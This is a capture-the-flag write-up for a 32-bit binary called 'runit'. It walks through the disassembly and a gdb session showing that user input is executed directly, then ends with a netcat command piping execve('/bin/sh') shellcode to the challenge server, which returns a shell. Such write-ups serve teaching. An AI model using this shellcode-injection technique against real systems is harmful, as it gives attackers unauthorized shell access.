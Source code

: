 # runit
slopey112 - 3/4/19

We are given a typical binary executable. Let's first see what it does.
```
root@kali:~/Crack Me# ./runit
Send me stuff!!
asdfasdf
Segmentation fault
```
Executing it, we feed the program input, but for some reason we get a segmentation fault. Recall that a segmentation fault occurs when you try to access a region of memory that doesn't exist. We'll keep that in mind as we proceed.

Now, let's disassemble the binary.
```
   0x0804854b <+0>:	lea    ecx,[esp+0x4]
   0x0804854f <+4>:	and    esp,0xfffffff0
   0x08048552 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048555 <+10>:	push   ebp
   0x08048556 <+11>:	mov    ebp,esp
   0x08048558 <+13>:	push   ecx
   0x08048559 <+14>:	sub    esp,0x14
   0x0804855c <+17>:	sub    esp,0x8
   0x0804855f <+20>:	push   0x0
   0x08048561 <+22>:	push   0x0
   0x08048563 <+24>:	push   0x22
   0x08048565 <+26>:	push   0x7
   0x08048567 <+28>:	push   0x400
   0x0804856c <+33>:	push   0x0
   0x0804856e <+35>:	call   0x8048410 <mmap@plt>
   0x08048573 <+40>:	add    esp,0x20
   0x08048576 <+43>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048579 <+46>:	sub    esp,0xc
   0x0804857c <+49>:	push   0xa
   0x0804857e <+51>:	call   0x80483e0 <alarm@plt>
   0x08048583 <+56>:	add    esp,0x10
   0x08048586 <+59>:	mov    eax,ds:0x804a034
   0x0804858b <+64>:	push   0x0
   0x0804858d <+66>:	push   0x2
   0x0804858f <+68>:	push   0x0
   0x08048591 <+70>:	push   eax
   0x08048592 <+71>:	call   0x8048430 <setvbuf@plt>
   0x08048597 <+76>:	add    esp,0x10
   0x0804859a <+79>:	mov    eax,ds:0x804a030
   0x0804859f <+84>:	push   0x0
   0x080485a1 <+86>:	push   0x2
   0x080485a3 <+88>:	push   0x0
   0x080485a5 <+90>:	push   eax
   0x080485a6 <+91>:	call   0x8048430 <setvbuf@plt>
   0x080485ab <+96>:	add    esp,0x10
   0x080485ae <+99>:	sub    esp,0xc
   0x080485b1 <+102>:	push   0x8048690
   0x080485b6 <+107>:	call   0x80483f0 <puts@plt>
   0x080485bb <+112>:	add    esp,0x10
   0x080485be <+115>:	sub    esp,0x4
   0x080485c1 <+118>:	push   0x400
   0x080485c6 <+123>:	push   DWORD PTR [ebp-0x10]
   0x080485c9 <+126>:	push   0x0
   0x080485cb <+128>:	call   0x80483d0 <read@plt>
   0x080485d0 <+133>:	add    esp,0x10
   0x080485d3 <+136>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485d6 <+139>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485da <+143>:	jns    0x80485f6 <main+171>
   0x080485dc <+145>:	sub    esp,0xc
   0x080485df <+148>:	push   0x80486a0
   0x080485e4 <+153>:	call   0x80483f0 <puts@plt>
   0x080485e9 <+158>:	add    esp,0x10
   0x080485ec <+161>:	sub    esp,0xc
   0x080485ef <+164>:	push   0x1
   0x080485f1 <+166>:	call   0x8048400 <exit@plt>
   0x080485f6 <+171>:	mov    eax,DWORD PTR [ebp-0x10]
   0x080485f9 <+174>:	call   eax
   0x080485fb <+176>:	mov    eax,0x0
   0x08048600 <+181>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048603 <+184>:	leave  
   0x08048604 <+185>:	lea    esp,[ecx-0x4]
   0x08048607 <+188>:	ret
```
We are given way more information than we actually need. There's a lot going on here, but we see some interesting things.

1. The `alarm` call gives us 10 seconds to access the binary. It isn't the worst thing that could happen, but just very annoying.
2. The `read` call's file descriptor is `stdin`, so it is the read function which takes care of IO. The interesting consequence here is that we won't see any buffer overflows.
3. There is a call to `eax` at `0x080485fb`. Given that we saw a segmentation fault, this makes things very interesting.

We'll set a break point right at that call function, and we'll see what's in `eax`.
```
(gdb) b *0x080485f9
Breakpoint 1 at 0x80485f9
(gdb) r
Starting program: /root/Crack Me/runit
Send me stuff!!
ABCD

Breakpoint 1, 0x080485f9 in main ()
(gdb) x/s $eax
0xf7ffb000:	"ABCD\n"
```
Sure enough, it's the input we gave. Given that it's a call to `eax`, we can simply inject shell code instead. Let's open up our [trusty shell code](/src/http://shell-storm.org/shellcode/files/shellcode-811.php) and we'll inject that into the program.
```
root@kali:~/Crack Me# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | nc runit-5094b2cb.challenges.bsidessf.net 5252
Send me stuff!!
whoami
ctf
```
